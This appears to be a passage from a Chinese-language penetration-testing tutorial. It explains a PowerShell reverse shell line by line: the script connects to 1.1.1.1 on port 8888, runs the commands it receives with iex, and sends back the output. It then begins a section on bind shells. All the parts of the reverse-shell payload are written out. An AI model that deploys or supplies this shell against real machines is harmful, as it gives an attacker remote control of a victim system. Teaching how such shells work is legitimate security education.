 - **`-nop`**：表示 `-NoProfile`，启动 PowerShell 时不加载用户的配置文件，这有助于减少加载时间并避免执行任何可能在配置文件中定义的自动运行脚本。

- **`-c`**：表示 `-Command`，后面跟随的字符串将被 PowerShell 解释并执行。

**参数**
- **`$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',8888);`**：
  - 创建一个 TCP 客户端对象，连接到 IP 地址为 `1.1.1.1` 的机器，端口 `8888`。这是远程服务器的地址和监听端口。

- **`$s = $client.GetStream();`**：
  - 获取 TCP 连接的数据流，用于后续的读写操作。

- **`[byte[]]$b = 0..65535|%{0};`**：
  - 初始化一个大小为 65536 字节的字节数组 `$b`，用于存储从数据流中读取的数据。

- **`while(($i = $s.Read($b, 0, $b.Length)) -ne 0){...}`**：
  - 在循环中读取数据流 `$s` 到数组 `$b`，直到没有数据可读（即 `$i` 不等于 0）。`$i` 是每次读取的字节数。

  - **`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);`**：
    - 将读取的字节数据转换成 ASCII 字符串 `$data`。

  - **`$sb = (iex $data 2>&1 | Out-String);`**：
    - 执行 `$data` 中包含的 PowerShell 命令（`iex` 是 `Invoke-Expression` 的别名，用于执行字符串中的代码），并将输出和错误一同捕获转换为字符串。

  - **`$sb2 = $sb + 'PS ' + (pwd).Path + '> ';`**：
    - 将执行结果 `$sb`、当前 PowerShell 工作路径和提示符合并，形成新的字符串 `$sb2`。

  - **`$sbt = ([text.encoding]::ASCII).GetBytes($sb2);`**：
    - 将字符串 `$sb2` 转换为 ASCII 字节流，准备发送回远程服务器。

  - **`$s.Write($sbt,0,$sbt.Length);`**：
    - 将字节流 `$sbt` 写入到数据流 `$s`，发送回服务器。

  - **`$s.Flush();`**：
    - 清空缓冲区，确保所有数据被发送。

- **`$client.Close();`**：
  - 关闭 TCP 客户端连接。

## 3.1绑定shell
>绑定shell是在目标服务器开启一个端口，等待我们去连接的shell
>和常规ssh相比，连接时不用输入密码，是一个暴露的连接入口
>和反向shell一样，绑定shell也不是全功能的shell

![绑定shell原理图](bind.png)
